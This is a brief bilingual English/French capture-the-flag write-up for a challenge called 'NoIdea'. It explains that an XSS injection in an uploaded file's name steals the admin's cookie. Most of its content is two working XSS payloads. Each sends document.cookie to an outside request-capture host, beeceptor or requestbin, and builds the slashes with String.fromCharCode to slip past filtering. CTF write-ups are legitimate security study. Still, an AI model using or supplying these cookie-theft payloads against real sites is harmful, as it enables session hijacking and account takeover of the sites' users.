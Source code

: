 # NoIdea Chall WU

## English

File upload with an injection in the name of the file to get an XSS. The XSS injection gives you a way to get the admin's cookies (flag).

Payloads :
- ``<img src=y onerror=window.location='https:'+String.fromCharCode(47)+String.fromCharCode(47)+'<endpoint>.free.beeceptor.com?a='+document.cookie>.txt``
- ``<img src=y onerror=(document.location='https:'+String.fromCharCode(47)+String.fromCharCode(47)+'requestbin.io'+String.fromCharCode(47)+'<endpoint>?'+document.cookie)>``

Little troll : you got rickrolled when you are using a source with the image "x".

## Français

Upload d'un fichier avec une injection dans son nom pour réaliser une XSS. L'injection XSS va nous permettre de récupérer les cookies de l'administrateur (flag).

Payloads :
- ``<img src=y onerror=window.location='https:'+String.fromCharCode(47)+String.fromCharCode(47)+'<endpoint>.free.beeceptor.com?a='+document.cookie>.txt``
- ``<img src=y onerror=(document.location='https:'+String.fromCharCode(47)+String.fromCharCode(47)+'requestbin.io'+String.fromCharCode(47)+'<endpoint>?'+document.cookie)>``

Petit troll : si src=x, renvoie vers un gif de rick roll.
